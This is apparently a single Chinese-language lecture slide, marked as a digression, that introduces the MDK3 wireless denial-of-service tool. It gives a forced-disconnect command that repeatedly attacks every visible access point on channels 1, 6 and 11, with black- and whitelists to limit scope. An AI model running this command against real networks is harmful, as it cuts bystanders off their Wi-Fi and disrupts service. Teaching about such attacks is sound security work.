

题外话
无线DOS工具MDK3

强制断线命令：
mdk3 mon0 d -s 120 -c 1,6,11

软件会向周围所有可见AP发起循环攻击 (有黑、白名单对攻击范围进行控制)